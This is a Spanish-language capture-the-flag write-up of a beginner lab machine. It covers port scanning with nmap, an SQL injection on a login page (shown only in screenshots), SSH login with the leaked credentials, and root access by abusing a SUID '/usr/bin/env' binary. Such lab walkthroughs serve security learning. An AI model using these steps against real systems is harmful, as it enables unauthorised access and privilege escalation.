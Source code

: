 # Maquina injention

- Nivel: Muy fácil

## Escaneo de puertos

<p>Tras encender la máquina lo primero que haremos será un ping para comprobar que todo esta correcto</p>

'''

ping -c1 172.17.0.2

'''

'''

PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.065 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.065/0.065/0.065/0.000 ms

'''

<p>Como podemos observar la máquina esta encendida, por el TTL se puede intuir que es una máquina Linux</p>

<p>Con esto comprobado procedemos a realizar el primer escaneo con nmap</p>

'''

sudo nmap -p- --open -sS -vvv -Pn 172.17.0.2

'''

'''

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 00:03 CET
Initiating ARP Ping Scan at 00:03
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:03, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:03
Completed Parallel DNS resolution of 1 host. at 00:03, 6.53s elapsed
DNS resolution of 1 IPs took 6.53s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 3, CN: 0]
Initiating SYN Stealth Scan at 00:03
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:03, 1.42s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000090s latency).
Scanned at 2025-02-06 00:03:29 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 8.20 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
           
'''

<p>El escaneo nos reporta que los puertos 22 y 80 estan abiertos lo cual puede ser un indicativo de que hay una página web corriendo en la máquina</p>
<p>Realizamos un segundo escaneo de esos puertos para obtener información mas detallada</p>

'''

sudo nmap -p 22,80 -sV -vvv -Pn 172.17.0.2

'''

'''

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 00:06 CET
NSE: Loaded 46 scripts for scanning.
Initiating ARP Ping Scan at 00:06
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:06, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:06
Completed Parallel DNS resolution of 1 host. at 00:06, 6.52s elapsed
DNS resolution of 1 IPs took 6.52s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 3, CN: 0]
Initiating SYN Stealth Scan at 00:06
Scanning 172.17.0.2 [2 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:06, 0.02s elapsed (2 total ports)
Initiating Service scan at 00:06
Scanning 2 services on 172.17.0.2
Completed Service scan at 00:06, 6.02s elapsed (2 services on 1 host)
NSE: Script scanning 172.17.0.2.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 00:06
Completed NSE at 00:06, 0.01s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 00:06
Completed NSE at 00:06, 0.00s elapsed
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000042s latency).
Scanned at 2025-02-06 00:06:29 CET for 6s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.12 seconds
           Raw packets sent: 3 (116B) | Rcvd: 3 (116B)
           
'''

<p>Este escaneo nos reporta que estamos ante una máquina Ubuntu la cual corre un Apache 2.4.52</p>




## Pagina Web

<p>Introducimos la IP de la máquina en el navegador y nos lleva a la siguiente página</p>

![captura_injection_1](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-17-24.png)

<p>Podemos observar que es una página de inicio de sesión</p>
<p>Probamos una inyección SQL</p>

![captura_injection_2](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-24-24.png)

<p>La página es vulnerable a SQL Injection, nos muestra el siguiente resultado </p>

![captura_injection_3](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-26-15.png)

<p>Nos da un nombre de usuario y una contraseña</p>

## Conexión por ssh
<p>Aprovechando este nombre y contraseña tratamos de conectarnos por ssh</p>

'''

ssh dylan@172.17.0.2

'''

'''

dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.8.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Feb  5 23:25:00 2025 from 172.17.0.1
dylan@7af8994eca56:~$ 

'''
<p>Ha funcionado, tenemos una conexión ssh con la máquina</p>

## Escalada de privilegios

Comprobamos que somos el usuario dylan

'''

whoami

'''

'''

dylan

'''

<p>Buscamos los programas sobre los que tenemos privilegios</p>

'''

sudo -l

'''

'''

-bash: sudo: command not found

'''

<p>Probamos otra forma de busqueda</p>

<p>Buscamos todos los archivos con permiso SUID y cuyo usuario sea root de forma que al ejecutarse lo hagan como este</p>
'''

find / -perm -4000 -user root 2>/dev/null

'''

'''

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/su
/usr/bin/env
/usr/bin/chfn

'''

<p>De estos archivos podemos destacar /usr/bin/env el cual se utiliza para ejecutar un programa con variables de entorno personalizadas</p>
<p>Probamos a ejecutar /bin/bash con /bin/env de forma que al cumplir con las caracteristicas mencionadas anteriormente debería devolver una bash con permisos de root</p>

'''

/usr/bin/env /bin/bash -p

'''

'''

bash-5.1# whoami
root

'''
